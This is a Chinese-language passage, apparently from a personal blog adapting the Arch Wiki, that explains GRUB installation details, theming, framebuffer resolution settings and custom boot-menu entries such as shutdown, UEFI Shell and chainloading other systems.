<p>临时解决方案是给 <code>/boot/grub/i386-pc/core.img</code> 文件加“不可变”(immutable) 标志（按照上面提过的，使用 <code>chattr</code> 命令）。这样 <code>core.img</code> 文件的位置就不会变。只有当将 GRUB 安装到分区启动扇区或者无分区磁盘上时才需要给 <code>/boot/grub/i386-pc/core.img</code> 加上“不可变”标志，在安装到 MBR 或者单纯地生成 <code>core.img</code> 而不嵌入到其他引导扇区里的时候，就不用添加（正如上面所述）。</p>
<p>然而即使没有报错，生成的 <code>grub.cfg</code> 文件也不会包含正确的 UUID。参考 <a href="https://bbs.archlinux.org/viewtopic.php?pid=1294604#p1294604" target="_blank" rel="noopener">https://bbs.archlinux.org/viewtopic.php?pid=1294604#p1294604</a> 。 要解决这个问题，使用如下命令：</p>
<figure class="highlight vala"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br></pre></td><td class="code"><pre><span class="line"><span class="meta"># mount /dev/sdxY /mnt        #Your root partition.</span></span><br><span class="line"><span class="meta"># mount /dev/sdxZ /mnt/boot   #Your boot partition (if you have one).</span></span><br><span class="line"><span class="meta"># arch-chroot /mnt</span></span><br><span class="line"><span class="meta"># pacman -S linux</span></span><br><span class="line"><span class="meta"># grub-mkconfig -o /boot/grub/grub.cfg</span></span><br></pre></td></tr></table></figure>
<h5 id="只生成-core-img"><a href="#只生成-core-img" class="headerlink" title="只生成 core.img"></a>只生成 core.img</h5><p>通过添加 <code>--grub-setup=/bin/true</code> 选项，<code>grub-install</code> 命令会填充 <code>/boot/grub</code> 文件夹并生成 <code>/boot/grub/i386-pc/core.img</code>，但是 <strong>不会</strong> 将 GRUB 启动引导代码嵌入到 MBR、MBR 后部区域或者分区引导扇区中。 </p>
<figure class="highlight brainfuck"><table><tr><td class="gutter"><pre><span class="line">1</span><br></pre></td><td class="code"><pre><span class="line"><span class="comment">#</span> <span class="comment">grub</span><span class="literal">-</span><span class="comment">install</span> --<span class="comment">target=i386</span><span class="literal">-</span><span class="comment">pc</span> --<span class="comment">grub</span><span class="literal">-</span><span class="comment">setup=/bin/true</span> --<span class="comment">debug</span> <span class="comment">/dev/sda</span></span><br></pre></td></tr></table></figure>
<p><strong>注意：</strong></p>
<ul>
<li><code>/dev/sda</code> 仅是示例。</li>
<li><code>--target=i386-pc</code> 令 <code>grub-install</code> 仅为 BIOS 系统安装。建议总是使用这个选项来排除 grub-install 命令中的模糊性。</li>
</ul>
<p>生成后，Grub Legacy 或者 syslinux 就可以通过链式加载 GRUB 的 <code>core.img</code> 来间接加载 Linux 内核或者多启动内核了。参阅<a href="https://wiki.archlinux.org/index.php/Syslinux_(简体中文" target="_blank" rel="noopener">Syslinux (简体中文)#Chainloading</a>#Chainloading)[<a href="https://wiki.archlinux.org/index.php/ArchWiki:Requests#Broken_section_links" target="_blank" rel="noopener">断开的链接</a>：无效的部分]。</p>
<h4 id="BOOT分区"><a href="#BOOT分区" class="headerlink" title="BOOT分区"></a>BOOT分区</h4><ul>
<li>如果是加密磁盘，且boot分区在加密分区中，则进入GRUB之前需要输入密码。如果将boot分区单独出来则可以在进入GRUB后选择系统之后再考虑输入密码的事。 </li>
</ul>
<h3 id="GRUB个性化——GRand-Unified-Bootloader"><a href="#GRUB个性化——GRand-Unified-Bootloader" class="headerlink" title="GRUB个性化——GRand Unified Bootloader"></a>GRUB个性化——GRand Unified Bootloader</h3><blockquote>
<p><a href="https://www.gnu.org/software/grub/manual/grub/grub.html" target="_blank" rel="noopener">官方文档</a></p>
<p><a href="https://wiki.archlinux.org/index.php/GRUB_(%E7%AE%80%E4%BD%93%E4%B8%AD%E6%96%87" target="_blank" rel="noopener">Tips and tricks</a>/Tips<em>and_tricks</em>(%E7%AE%80%E4%BD%93%E4%B8%AD%E6%96%87)#%E5%85%B6%E5%AE%83%E5%AE%89%E8%A3%85%E6%96%B9%E5%BC%8F)</p>
</blockquote>
<h4 id="GRUB配置"><a href="#GRUB配置" class="headerlink" title="GRUB配置"></a>GRUB配置</h4><p>图形化工具：grub-customizer — GRUB 或者 BURG 的 GTK+ 定制器</p>
<p>安装GRUB后,需要生成主配置文件 <code>/boot/grub/grub.cfg</code>。配置文件的生成过程受到  <code>/etc/default/grub</code> 中的选项和 <code>/etc/grub.d/</code> 下脚本的影响。请记住，每当修改 <code>/etc/default/grub</code> 或者 <code>/etc/grub.d/</code> 中的文件之后，都需要再次<a href="https://wiki.archlinux.org/index.php/GRUB_(简体中文" target="_blank" rel="noopener">#生成主配置文件</a>#生成主配置文件)。</p>
<p>配置需要编辑：<code>/etc/default/grub</code>和<code>/etc/grub.d/</code></p>
<figure class="highlight vala"><table><tr><td class="gutter"><pre><span class="line">1</span><br></pre></td><td class="code"><pre><span class="line"><span class="meta"># grub-mkconfig -o /boot/grub/grub.cfg</span></span><br></pre></td></tr></table></figure>
<p>如果你没有进行额外配置，自动生成程序会在当前启动的系统的根文件系统中侦测配置文件。所以请确保系统已经启动或者已经通过<code>chroot</code> 进入。</p>
<p><strong>注意：</strong></p>
<ul>
<li>请记住，每当修改 <code>/etc/default/grub</code> 或者 <code>/etc/grub.d/</code> 中的文件之后，都需要再次生成 <code>/boot/grub/grub.cfg</code>。</li>
<li>默认的文件路径是 <code>/boot/grub/grub.cfg</code>，而非 <code>/boot/grub/i386-pc/grub.cfg</code>。</li>
<li>如果你是在 chroot 或者 systemd-nspawn 容器中运行 grub-mkconfig，可能会报 grub-probe  无法获取 “canonical path of /dev/sdaX” 错误而无法正常执行。此时可以尝试使用 arch-chroot，参见 <a href="https://bbs.archlinux.org/viewtopic.php?pid=1225067#p1225067" target="_blank" rel="noopener">BBS post</a>。</li>
<li>如果你在使用了 LVM 的 chroot 环境中安装 GRUB，<code>grub-mkconfig</code> 会无限期挂起。参见 <a href="https://wiki.archlinux.org/index.php/GRUB_(简体中文" target="_blank" rel="noopener">#Device /dev/xxx not initialized in udev database even after waiting 10000000 microseconds</a>#Device_/dev/xxx_not_initialized_in_udev_database_even_after_waiting_10000000_microseconds)。</li>
</ul>
<h4 id="视觉配置"><a href="#视觉配置" class="headerlink" title="视觉配置"></a>视觉配置</h4><p>GRUB 默认支持改变菜单外观。如果你没有初始化，请务必以视频模式 gfxmode 初始化 GRUB 图形终端 gfxterm，你可以在 <a href="https://wiki.archlinux.org/index.php/GRUB_(简体中文" target="_blank" rel="noopener">GRUB (简体中文)#”No suitable mode found” 错误</a>#”No<em>suitable_mode_found”</em>错误)一节找到这部分内容。此视频模式由 GRUB 通过 gfxpayload 传递给 Linux 内核，任何视觉配置都需要这种模式才能够有效果。</p>
<h5 id="GRUB主题"><a href="#GRUB主题" class="headerlink" title="GRUB主题"></a>GRUB主题</h5><p>主题可以从<a href="https://www.opendesktop.org/browse/cat/109/order/latest/" target="_blank" rel="noopener">OpenDesktop</a>下载到。</p>
<p>我这里提供了一些案例：(目前主题在<strong><a href="https://github.com/rmshadows/rm_scripts" target="_blank" rel="noopener">rm_scripts</a></strong> 仓库 &gt; <a href="https://github.com/rmshadows/rm_scripts/tree/main/Debian_GNOME_Init/OtherResource/grub-theme" target="_blank" rel="noopener">https://github.com/rmshadows/rm_scripts/tree/main/Debian_GNOME_Init/OtherResource/grub-theme</a>)</p>
<ul>
<li><p>Gemlion-aurora-penguinis</p>
<p></p>
</li>
<li><p>Sleek</p>
<ul>
<li><p>Sleek_theme-bigSur</p>
<p></p>
</li>
<li><p>Sleek_theme-white</p>
<p> </p>
</li>
<li><p>Sleek_theme-dark</p>
<p> </p>
</li>
</ul>
</li>
<li><p>Bigsur</p>
<p></p>
</li>
</ul>
<p>下面的例子将展示如何使用 GRUB 包里面的 Starfield 主题：</p>
<p>编辑 <code>/etc/default/grub</code></p>
<figure class="highlight ini"><table><tr><td class="gutter"><pre><span class="line">1</span><br></pre></td><td class="code"><pre><span class="line"><span class="attr">GRUB_THEME</span>=<span class="string">"/usr/share/grub/themes/starfield/theme.txt"</span></span><br></pre></td></tr></table></figure>
<p>需要<a href="https://wiki.archlinux.org/index.php/GRUB_(简体中文" target="_blank" rel="noopener">重新生成</a>#生成主配置文件) <code>grub.cfg</code> 来让修改起作用。如果配置成功的话，在重生成配置过程中，会在终端里出现 <code>Found theme: /usr/share/grub/themes/starfield/theme.txt</code>。</p>
<p>一旦使用了主题，你设置的背景图像通常就不起作用了。</p>
<p>关于主题制作可以参见这里：</p>
<ul>
<li><a href="http://wiki.rosalab.ru/en/index.php/Grub2_theme_tutorial" target="_blank" rel="noopener">http://wiki.rosalab.ru/en/index.php/Grub2_theme_tutorial</a></li>
<li><a href="https://forum.suse.org.cn/t/grub2-theme/1510" target="_blank" rel="noopener">https://forum.suse.org.cn/t/grub2-theme/1510</a></li>
<li><a href="https://forum.suse.org.cn/t/grub2-plymouth-kdm-ksplash/1419" target="_blank" rel="noopener">https://forum.suse.org.cn/t/grub2-plymouth-kdm-ksplash/1419</a></li>
</ul>
<h5 id="设置帧缓冲分辨率"><a href="#设置帧缓冲分辨率" class="headerlink" title="设置帧缓冲分辨率"></a>设置帧缓冲分辨率</h5><p>GRUB 既可以为自己，也可以为内核设定帧缓冲。现在已经不使用老的 <code>vga=</code> 配置了，推荐方法是在 <code>/etc/default/grub</code> 文件中按照下面的例子编辑，来设定宽度（像素）x高度（像素）x<a href="https://en.wikipedia.org/wiki/color_depth" target="_blank" rel="noopener">颜色深度</a>：</p>
<figure class="highlight ini"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br></pre></td><td class="code"><pre><span class="line"><span class="attr">GRUB_GFXMODE</span>=<span class="number">1024</span>x768x32</span><br><span class="line"><span class="attr">GRUB_GFXPAYLOAD_LINUX</span>=keep</span><br></pre></td></tr></table></figure>
<p>可以指定多种分辨率，包括默认的 <code>auto</code>，所以建议你编辑成这个样：<code>GRUB_GFXMODE=&lt;心仪的分辨率&gt;,&lt;后备分辨率比如 1024x768&gt;,auto</code>。更多信息请见 <a href="https://www.gnu.org/software/grub/manual/grub/html_node/gfxmode.html" target="_blank" rel="noopener">GRUB gfxmode 文档</a>。 <a href="https://www.gnu.org/software/grub/manual/html_node/gfxpayload.html#gfxpayload" target="_blank" rel="noopener">gfxpayload</a> 属性可以确保内核也保持该分辨率。</p>
<p><strong>注意：</strong></p>
<ul>
<li>只有显卡通过 <a href="https://en.wikipedia.org/wiki/VESA_BIOS_Extensions" target="_blank" rel="noopener">VESA BIOS 拓展</a>支持的模式才能用。要查看所支持的模式列表，安装 <a href="https://archlinux.org/packages/?name=hwinfo" target="_blank" rel="noopener">hwinfo</a> 然后以 root 权限运行 <code>hwinfo --framebuffer</code>。或者进入 GRUB 命令行运行 <code>videoinfo</code> 命令。</li>
<li>早期版本的 <a href="https://wiki.archlinux.org/index.php/NVIDIA" target="_blank" rel="noopener">NVIDIA</a> 专有驱动（使用显卡 GeForce GTX 970，驱动 nvidia 370 进行了测试）支持的  <code>GRUB_GFXMODE</code> 格式为 <code>*&lt;宽&gt;*x*&lt;高&gt;*-*&lt;色深&gt;*</code>（例如 <code>1920x1200-24</code>，而不是 <code>1920x1200x24</code>）。这应该不会影响新的显卡和驱动。使用比较新的驱动的 Pascal 显卡（以 GeForce GTX 1060 显卡和 nvidia 381.22  驱动测试）没法使用上文建议的格式，而且会引发严重的问题，包括但不限于系统崩溃以及 hard lock。当前的驱动和显卡最好使用标准的 <code>*&lt;width&gt;*x*&lt;height&gt;*x*&lt;depth&gt;*</code> 格式来配置 <code>GRUB_GFXMODE</code>。</li>
<li>确保在修改完后运行 <code>grub-mkconfig -o /boot/grub/grub.cfg</code>。</li>
</ul>
<p>这种方法不管用的话，可以试试老的 <code>vga=</code> 方法。将它添加到 <code>/etc/default/grub</code> 文件中的 <code>&quot;GRUB_CMDLINE_LINUX_DEFAULT=&quot;</code> 一行就行了。比如 <code>&quot;GRUB_CMDLINE_LINUX_DEFAULT=&quot;quiet splash vga=792&quot;</code> 可以将系统的分辨率设定为 <code>1024x768</code>。</p>
<h5 id="915resolution-破解"><a href="#915resolution-破解" class="headerlink" title="915resolution 破解"></a>915resolution 破解</h5><p>有些时候,Intel 显卡无法通过 <code># hwinfo --framebuffer</code> 或 <code>vbeinfo</code> 显示你需要的分辨率。这种情况下，你可以使用 <code>915resolution</code> 破解。这种破解会临时性的修改显卡 BIOS 来添加所需的分辨率。详情请参考<a href="http://915resolution.mango-lang.org/" target="_blank" rel="noopener">915resolution 主页</a>。这个包可以在这里找到：<a href="https://aur.archlinux.org/packages/915resolution/" target="_blank" rel="noopener">915resolution</a>AUR</p>
<p>首先，找一个你想要修改的视频模式。为此需要在 GRUB 命令行模式下运行：</p>
<figure class="highlight angelscript"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br></pre></td><td class="code"><pre><span class="line">sh:grub&gt; <span class="number">915</span>resolution -l</span><br><span class="line">Intel <span class="number">800</span>/<span class="number">900</span> Series VBIOS Hack : version <span class="number">0.5</span><span class="number">.3</span></span><br><span class="line">[...]</span><br><span class="line">Mode <span class="number">30</span> : <span class="number">640</span>x480, <span class="number">8</span> bits/pixel</span><br><span class="line">[...]</span><br></pre></td></tr></table></figure>
<p>然后，使用 <code>1440x900</code> 分辨率覆盖 <code>Mode 30</code>：</p>
<figure class="highlight routeros"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br></pre></td><td class="code"><pre><span class="line">/etc/grub.d/00_header</span><br><span class="line">[<span class="built_in">..</span>.]</span><br><span class="line">915resolution 30 1440 900  # 添加这行</span><br><span class="line"><span class="builtin-name">set</span> <span class="attribute">gfxmode</span>=<span class="variable">$&#123;GRUB_GFXMODE&#125;</span></span><br><span class="line">[<span class="built_in">..</span>.]</span><br></pre></td></tr></table></figure>
<p>最后按照之前描述的方式设置 <code>GRUB_GFXMODE</code>，再重新生成 GRUB 配置文件，重启并测试是否生效。</p>
<h5 id="背景图像和点阵字体"><a href="#背景图像和点阵字体" class="headerlink" title="背景图像和点阵字体"></a>背景图像和点阵字体</h5><p>GRUB 原生支持设置背景图像和 <code>pf2</code> 格式的点阵字体。<a href="https://archlinux.org/packages/?name=grub" target="_blank" rel="noopener">grub</a> 包中包含了 unifont 字体，名为<code>unicode.pf2</code>，（也有可能只包含名为 <code>ascii.pf2</code> 的ASCII字符字体）。</p>
<p>在载入正确的模块之后，GRUB 支持的图像格式有 tga, png 和 jpeg。所支持的最大图像分辨率跟硬件有关。</p>
<p>请确保你已经设定了合适的<a href="https://wiki.archlinux.org/index.php/GRUB_(简体中文" target="_blank" rel="noopener">帧缓冲分辨率</a>/Tips<em>and_tricks</em>(简体中文)#设置帧缓冲分辨率)。</p>
<p>按如下方式编辑 <code>/etc/default/grub</code>：</p>
<figure class="highlight ini"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br></pre></td><td class="code"><pre><span class="line"><span class="attr">GRUB_BACKGROUND</span>=<span class="string">"/boot/grub/myimage"</span></span><br><span class="line"><span class="comment">#GRUB_THEME="/path/to/gfxtheme"</span></span><br><span class="line"><span class="attr">GRUB_FONT</span>=<span class="string">"/path/to/font.pf2"</span></span><br></pre></td></tr></table></figure>
<p><strong>注意：</strong> 如果你将 GRUB 安装在单独的分区上，<code>grub.cfg</code> 文件中会自动将 <code>/boot/grub/myimage</code> 改成 <code>/grub/myimage</code>。</p>
<p>需要<a href="https://wiki.archlinux.org/index.php/GRUB_(简体中文" target="_blank" rel="noopener">重新生成</a>#生成主配置文件) <code>grub.cfg</code> 来让修改起作用。如果成功添加了背景图片，用户会在运行命令的终端中看到 <code>&quot;Found background image...&quot;</code>。如果句话没有出现，你设定的图像信息可能没有成功添加进 <code>grub.cfg</code> 文件。</p>
<p>如果图像没有正确显示，执行如下检查：</p>
<ul>
<li>在 <code>/etc/default/grub</code> 文件中，图像的路径和名字要正确</li>
<li>图像的大小和格式要合适 (tga, png, 8-bit jpg)</li>
<li>图像需要以 RGB 模式存储，而且没有索引</li>
<li><code>/etc/default/grub</code> 文件里面开启了 console 模式</li>
<li>需要执行 <code>grub-mkconfig</code> 命令以将图像信息写入 <code>/boot/grub/grub.cfg</code> 文件</li>
<li><code>grub-mkconfig</code> 脚本不会对 <code>grub.cfg</code> 文件中所写的文件名添加引号，所以要确保这些名字里没有空格</li>
</ul>
<h5 id="菜单颜色"><a href="#菜单颜色" class="headerlink" title="菜单颜色"></a>菜单颜色</h5><p>GRUB 支持设置菜单颜色。可使用的颜色能从 <a href="https://www.gnu.org/software/grub/manual/html_node/Theme-file-format.html" target="_blank" rel="noopener">GRUB 手册</a>里面找到。示例如下：</p>
<p>编辑 <code>/etc/default/grub</code>：</p>
<figure class="highlight ini"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br></pre></td><td class="code"><pre><span class="line"><span class="attr">GRUB_COLOR_NORMAL</span>=<span class="string">"light-blue/black"</span></span><br><span class="line"><span class="attr">GRUB_COLOR_HIGHLIGHT</span>=<span class="string">"light-cyan/blue"</span></span><br></pre></td></tr></table></figure>
<h5 id="隐藏菜单"><a href="#隐藏菜单" class="headerlink" title="隐藏菜单"></a>隐藏菜单</h5><p>GRUB 特性之一就是支持隐藏/跳过菜单，可以在需要的时候按 <code>Esc</code> 来取消隐藏/跳过。同时还支持设置是否显示 timeout 计时器。</p>
<p>按照你的想法来编辑 <code>/etc/default/grub</code>。添加下面的几行可以启动这个功能，其中计时器被设定为 5 秒钟，而且可以被用户看到：</p>
<figure class="highlight ini"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br></pre></td><td class="code"><pre><span class="line"><span class="attr">GRUB_TIMEOUT</span>=<span class="number">5</span></span><br><span class="line"><span class="attr">GRUB_TIMEOUT_STYLE</span>=<span class="string">'countdown'</span></span><br></pre></td></tr></table></figure>
<p>GRUB_TIMEOUT 是设置显示菜单前等待几秒。</p>
<h5 id="禁用-framebuffer"><a href="#禁用-framebuffer" class="headerlink" title="禁用 framebuffer"></a>禁用 framebuffer</h5><p>使用 NVIDIA 私有驱动的用户可能希望禁用 GRUB 的 framebuffer，因为它会导致驱动错误。</p>
<p>要禁用 framebuffer，只要在 <code>/etc/default/grub</code> 中取消下面这行的注释：</p>
<figure class="highlight ini"><table><tr><td class="gutter"><pre><span class="line">1</span><br></pre></td><td class="code"><pre><span class="line"><span class="attr">GRUB_TERMINAL_OUTPUT</span>=console</span><br></pre></td></tr></table></figure>
<p>如果你想保留 GRUB 的 framebuffer，解决方法是在 GRUB 载入内核前进入文字模式。可以通过在 <code>/etc/default/grub</code> 中进行如下修改：</p>
<figure class="highlight ini"><table><tr><td class="gutter"><pre><span class="line">1</span><br></pre></td><td class="code"><pre><span class="line"><span class="attr">GRUB_GFXPAYLOAD_LINUX</span>=text</span><br></pre></td></tr></table></figure>
<h4 id="添加GRUB启动菜单"><a href="#添加GRUB启动菜单" class="headerlink" title="添加GRUB启动菜单"></a>添加GRUB启动菜单</h4><ul>
<li><p>方法1: 如果想要添加自定义条目，你可以编辑 <code>/etc/grub.d/40_custom</code> 文件，然后重新生成 <code>/boot/grub/grub.cfg</code>。</p>
</li>
<li><p>方法2: 或者你可以创建 <code>/boot/grub/custom.cfg</code> 文件然后把条目添加进这里面。修改 <code>/boot/grub/custom.cfg</code> 文件后不用再运行 <code>grub-mkconfig</code> 程序，因为 <code>/etc/grub.d/40_custom</code> 文件已经在生成的主配置文件中添加了相关的 <code>source</code> 语句来引用 <code>/boot/grub/custom.cfg</code>。</p>
</li>
</ul>
<p><strong>提示：</strong> <code>/etc/grub.d/40_custom</code> 可以用做创建 <code>/etc/grub.d/*nn*_custom</code> 文件的模板，其中 <code>*nn*</code> 为优先级，规定脚本文件的执行顺序。而脚本文件的执行顺序决定了其所添加的条目在 GRUB 启动菜单中的位置。<code>*nn*</code> 应当比 <code>06</code> 大，以此保证重要的脚本能够优先执行。</p>
<p>如要参考自定义菜单条目的例子，请看<a href="https://wiki.archlinux.org/index.php/GRUB_(简体中文" target="_blank" rel="noopener">#启动菜单条目示例</a>#启动菜单条目示例)：</p>
<h5 id="“关机”-菜单项"><a href="#“关机”-菜单项" class="headerlink" title="“关机” 菜单项"></a>“关机” 菜单项</h5><figure class="highlight nginx"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br></pre></td><td class="code"><pre><span class="line"><span class="attribute">menuentry</span> <span class="string">"System shutdown"</span> &#123;</span><br><span class="line">	<span class="attribute">echo</span> <span class="string">"System shutting down..."</span></span><br><span class="line">	halt</span><br><span class="line">&#125;</span><br></pre></td></tr></table></figure>
<h5 id="“重启”-菜单项"><a href="#“重启”-菜单项" class="headerlink" title="“重启” 菜单项"></a>“重启” 菜单项</h5><figure class="highlight nginx"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br></pre></td><td class="code"><pre><span class="line"><span class="attribute">menuentry</span> <span class="string">"System restart"</span> &#123;</span><br><span class="line">	<span class="attribute">echo</span> <span class="string">"System rebooting..."</span></span><br><span class="line">	reboot</span><br><span class="line">&#125;</span><br></pre></td></tr></table></figure>
<h5 id="“固件设置”-菜单项（仅限-UEFI）"><a href="#“固件设置”-菜单项（仅限-UEFI）" class="headerlink" title="“固件设置” 菜单项（仅限 UEFI）"></a>“固件设置” 菜单项（仅限 UEFI）</h5><figure class="highlight"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br></pre></td><td class="code"><pre><span class="line">if [ $&#123;grub_platform&#125; == "efi" ]; then</span><br><span class="line">	<span class="attribute">menuentry</span> <span class="string">"Firmware setup"</span> &#123;</span><br><span class="line">		fwsetup</span><br><span class="line">	&#125;</span><br><span class="line">fi</span><br></pre></td></tr></table></figure>
<h5 id="EFI-可执行文件"><a href="#EFI-可执行文件" class="headerlink" title="EFI 可执行文件"></a>EFI 可执行文件</h5><p>在启用了 UEFI 模式时，GRUB 可以 chainload 其它 EFI 可执行文件。</p>
<p><strong>提示：</strong> 如要让这些启动条目仅在 GRUB 处于 UEFI 模式的时候显示，只需把它们放到下面的 <code>if</code> 语句中：</p>
<figure class="highlight"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br></pre></td><td class="code"><pre><span class="line">if [ $&#123;grub_platform&#125; == "efi" ]; then</span><br><span class="line">	放入仅 UEFI 显示的启动条目</span><br><span class="line">fi</span><br></pre></td></tr></table></figure>
<h5 id="UEFI-Shell"><a href="#UEFI-Shell" class="headerlink" title="UEFI Shell"></a>UEFI Shell</h5><p>要启动 <a href="https://wiki.archlinux.org/index.php/Unified_Extensible_Firmware_Interface_(简体中文" target="_blank" rel="noopener">UEFI Shell</a>#UEFI<em>Shell)，你可以将它放在 [EFI 系统分区](<a href="https://wiki.archlinux.org/index.php/EFI_system_partition" target="_blank" rel="noopener">https://wiki.archlinux.org/index.php/EFI_system_partition</a></em>(简体中文))的根目录里，然后添加如下菜单条目：</p>
<figure class="highlight jboss-cli"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br></pre></td><td class="code"><pre><span class="line">menuentry <span class="string">"UEFI Shell"</span> &#123;</span><br><span class="line">	insmod fat</span><br><span class="line">	insmod chain</span><br><span class="line">	search <span class="params">--no-floppy</span> <span class="params">--set=root</span> <span class="params">--file</span> <span class="string">/shellx64.efi</span></span><br><span class="line">	chainloader <span class="string">/shellx64.efi</span></span><br><span class="line">&#125;</span><br></pre></td></tr></table></figure>
<h5 id="gdisk"><a href="#gdisk" class="headerlink" title="gdisk"></a>gdisk</h5><p>下载 <a href="https://wiki.archlinux.org/index.php/Gdisk#gdisk_EFI_application" target="_blank" rel="noopener">gdisk EFI application</a> 然后复制 <code>gdisk_x64.efi</code> 到 <code>*esp*/EFI/tools/</code>。</p>
<figure class="highlight gams"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br></pre></td><td class="code"><pre><span class="line">menuentry <span class="string">"gdisk"</span> &#123;</span><br><span class="line">	insmod fat</span><br><span class="line">	insmod chain</span><br><span class="line">	search --<span class="keyword">no</span>-floppy --<span class="keyword">set</span>=root <span class="comment">--file</span> /EFI/<span class="comment">tools</span>/gdisk_x64.efi</span><br><span class="line">	chainloader /<span class="comment">EFI</span>/tools/<span class="comment">gdisk_x64.efi</span></span><br><span class="line">&#125;</span><br></pre></td></tr></table></figure>
<h5 id="Chainload-一个-Arch-Linux-efi-文件"><a href="#Chainload-一个-Arch-Linux-efi-文件" class="headerlink" title="Chainload 一个 Arch Linux .efi 文件"></a>Chainload 一个 Arch Linux .efi 文件</h5><p>如果你有一个按照 <a href="https://wiki.archlinux.org/index.php/Secure_Boot" target="_blank" rel="noopener">Secure Boot</a> 或者其他方法生成的 <em>.efi</em> 文件，你可以把它添加到启动菜单里。例如：</p>
<figure class="highlight gams"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br></pre></td><td class="code"><pre><span class="line">menuentry <span class="string">"Arch Linux .efi"</span> &#123;</span><br><span class="line">	insmod fat</span><br><span class="line">	insmod chain</span><br><span class="line">	search --<span class="keyword">no</span>-floppy --<span class="keyword">set</span>=root <span class="comment">--fs-uuid FILESYSTEM_UUID</span></span><br><span class="line">	chainloader /EFI/<span class="comment">arch</span>/vmlinuz.efi</span><br><span class="line">&#125;</span><br></pre></td></tr></table></figure>
<h5 id="多系统启动"><a href="#多系统启动" class="headerlink" title="多系统启动"></a>多系统启动</h5><h6 id="Linux"><a href="#Linux" class="headerlink" title="Linux"></a>Linux</h6><p>假设另一个发行版位于 <code>sda2</code>：</p>
<figure class="highlight stata"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br></pre></td><td class="code"><pre><span class="line">menuentry <span class="string">"Other Linux"</span> &#123;</span><br><span class="line">	<span class="keyword">set</span> root=(hd0,2)</span><br><span class="line">	linux /<span class="keyword">boot</span>/vmlinuz (add other options here <span class="keyword">as</span> required)</span><br><span class="line">	initrd /<span class="keyword">boot</span>/initrd.img (<span class="keyword">if</span> the other kernel uses/needs <span class="keyword">one</span>)</span><br><span class="line">&#125;</span><br></pre></td></tr></table></figure>
<p>或者让 GRUB 根据 <em>UUID</em> 或 <em>label</em> 查找正确的分区：</p>
<figure class="highlight stata"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br><span class="line">7</span><br><span class="line">8</span><br><span class="line">9</span><br><span class="line">10</span><br></pre></td><td class="code"><pre><span class="line">menuentry <span class="string">"Other Linux"</span> &#123;</span><br><span class="line">        # 假设 UUID 为 763A-9CB6</span><br><span class="line">	<span class="keyword">search</span> --<span class="keyword">no</span>-floppy --<span class="keyword">set</span>=root --fs-uuid 763A-9CB6</span><br><span class="line"></span><br><span class="line">        # 按照 <span class="keyword">label</span> OTHER_LINUX 来搜索（确保分区 <span class="keyword">label</span> 是精确的）</span><br><span class="line">        #<span class="keyword">search</span> --<span class="keyword">no</span>-floppy --<span class="keyword">set</span>=root --<span class="keyword">label</span> OTHER_LINUX</span><br><span class="line"></span><br><span class="line">	linux /<span class="keyword">boot</span>/vmlinuz （按需求在这里添加其他的选项，例如： root=UUID=763A-9CB6 ）</span><br><span class="line">	initrd /<span class="keyword">boot</span>/initrd.img （如果其他的内核需要的话）</span><br><span class="line">&#125;</span><br></pre></td></tr></table></figure>
<h6 id="UEFI-GPT-模式下安装的-Windows"><a href="#UEFI-GPT-模式下安装的-Windows" class="headerlink" title="UEFI/GPT 模式下安装的 Windows"></a>UEFI/GPT 模式下安装的 Windows</h6><p>这个模式寻找 Windows 的启动加载器的位置，然后当用户选择了相应的菜单条目的时候，通过链式载入的方法在 GRUB 之后加载它。这里主要的任务是找到 EFI 系统分区然后从上面运行启动加载器。</p>
<p><strong>注意：</strong> 这个启动项仅在 UEFI 模式下才起作用，而且 Windows 和 UEFI 的位数必须相同。如果 GRUB 是 BIOS 模式，这个方法无效。参考 <a href="https://wiki.archlinux.org/index.php/Dual_boot_with_Windows_(简体中文" target="_blank" rel="noopener">Dual boot with Windows (简体中文)#Windows UEFI 和 BIOS 启动限制</a>#Windows<em>UEFI</em>和<em>BIOS</em>启动限制) 和 <a href="https://wiki.archlinux.org/index.php/Dual_boot_with_Windows_(简体中文" target="_blank" rel="noopener">Dual boot with Windows (简体中文)#UEFI / BIOS 启动管理器限制</a>#UEFI<em>/_BIOS</em>启动管理器限制)。</p>
